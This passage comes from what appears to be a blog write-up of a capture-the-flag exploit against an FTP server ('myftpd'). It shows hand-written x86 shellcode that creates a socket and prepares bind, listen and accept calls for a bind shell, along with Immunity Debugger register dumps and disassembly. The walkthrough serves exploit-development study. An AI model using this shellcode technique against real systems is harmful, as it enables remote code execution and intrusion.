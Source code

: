 print "[*] Command {0} chars...".format(len(command))
pwn(command)

{% endcodeblock %}

Invocation shows shellcode that has just been invoked looking like this:

{% codeblock ASM listing %}
00B5FFC0   83EC 7C          SUB ESP,7C
00B5FFC3   BB 44343440      MOV EBX,40343444
00B5FFC8   C1EB 08          SHR EBX,8
00B5FFCB   B0 06            MOV AL,6
00B5FFCD   50               PUSH EAX
00B5FFCE   B0 01            MOV AL,1
00B5FFD0   50               PUSH EAX
00B5FFD1   40               INC EAX
00B5FFD2   50               PUSH EAX
00B5FFD3   FFD3             CALL EBX
{% endcodeblock %}

The registers contain the following:

{% codeblock Register contents %}
EAX 00000084
ECX 71AB4114 WS2_32.71AB4114
EDX 00000008
EBX 00403434 <JMP.&WS2_32.socket>
ESP 00B5FF44
EBP 42424242
ESI 42424242
EDI 42424242
EIP 00B5FFD6
O 0  LastErr ERROR_SUCCESS (00000000)
{% endcodeblock %}

So we can see that `EBX` contains the `socket` function address as we had planned, but more importantly the `LastErr` indicates success, and `EAX` contains the result of the function call which is the handle to the socket we'll be listening on. We need to store that handle away so that we can use it in calls to `bind`, `listen` and `accept`. Instead of pushing onto the stack we're going to put it in a register for easy access. `EDI` is another register that tends to persist across calls to the functions that we'll be calling so let's put it in there.

{% codeblock ASM listing %}
MOV EDI, EAX          ; Store the socket handle somewhere else
{% endcodeblock %}

Once we've got the socket, we need to bind it to an address. This is where the existing global variable comes in which was used to set up the existing socket. To locate this structure in memory, all I had to do was use Immunity to locate the exiting call to `bind`. This was as simple as setting a breakpoint on the same memory address as the `bind` jump call, which is at `0x00403454`. This is invoked during start-up, and so launching the application results in the breakpoint being hit. From there we can step through a few instructions until we find ourselves back at the call site, located at address `0x00403134`. The instructions leading up to the call look like this:

{% codeblock Original bind call %}
00403116   . 52             PUSH EDX                                 ; |Socket
00403117   . A3 38744000    MOV DWORD PTR DS:[407438],EAX            ; |
0040311C   . C74424 08 1000>MOV DWORD PTR SS:[ESP+8],10              ; |
00403124   . C74424 04 3474>MOV DWORD PTR SS:[ESP+4],myftpd.00407434 ; |
0040312C   . A1 30744000    MOV EAX,DWORD PTR DS:[407430]            ; |
00403131   . 890424         MOV DWORD PTR SS:[ESP],EAX               ; |
00403134   . E8 1B030000    CALL <JMP.&WS2_32.bind>                  ; \bind
{% endcodeblock %}


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux